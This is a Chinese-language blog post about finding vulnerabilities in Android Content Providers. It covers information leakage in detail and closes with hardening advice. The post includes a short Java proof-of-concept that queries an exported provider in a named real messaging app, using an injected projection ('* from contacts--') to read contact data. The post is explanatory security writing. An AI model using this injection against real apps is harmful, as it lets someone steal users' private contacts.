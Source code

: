 ```yaml
---
layout: post
title: "android Content Provider漏洞挖掘"
date: 2019-03-07
category: android安全
tags: android安全
---
```


## Content Provider安全场景和危害

在Android系统中，Content Provider作为应用程序四大组件之一，它起到在应用程序之间共享数据的作用，通过Binder进程间通信机制以及匿名共享内存机制来实现。  
然而有些数据是应用自己的核心数据，需要有保护地进行开放。  
虽然Binder进程间通信机制突破了以应用程序为边界的权限控制，但是它是安全可控的，因为数据的访问接口是由数据的所有者来提供的，就是数据提供方可以在接口层来实现安全控制，决定哪些数据是可以读，哪些数据可以写。  
很多开发者不能恰当的使用，导致攻击者可访问到应用本身不想共享的数据。虽然Content Provider组件本身也提供了读写权限控制，但是它的控制粒度是比较粗的。  

## Content Provider漏洞分类

- 信息泄漏
- SQL注入
- 目录遍历

## 信息泄露漏洞

content URI是一个标志provider中的数据的URI。Content URI中包含了整个provider的以符号表示的名字(它的authority)和指向一个表的名字(一个路径)。当你调用一个客户端的方法来操作一个，provider中的一个表，指向表的contentURI是参数之一，如果对Content Provider的权限没有做好控制，就有可能导致恶意的程序通过这种方式读取APP的敏感数据。  


	<provider android:name=".providers.YouNiProvider" android:process="com.snda.youni.mms" android:authorities="com.snda.youni.providers.DataStructs"/>

	private void getyouni(){
		int i = 0;
		ContentResolver contentresolver=getContentResolver();
		String[] projection={"* from contacts--"};
		Uri uri =Uri.parse("content://com.snda.youni.providers.DataStructs/message_ex");
		Cursor cursor=contentresolver.query(uri.projection,null,null,null);
		String text="";
		while(cursor.moveToNext()){
			text+=cursor.getString(cursor.getColumnIndex("display_name"))+"\n";
		}
		Log.i("TEST",text);
	}

## 信息泄漏漏洞 防护

1.minSdkVersion不低于9  
2.不向外部app提供数据的私有content provider显示设置exported="false"，避免组件暴露(编译api小于17时更应注意此点)  
3.内部app通过content provid交换数据时，设置protectionLevel="signature"验证签名  
4.公开的content provider确保不存储敏感数据  
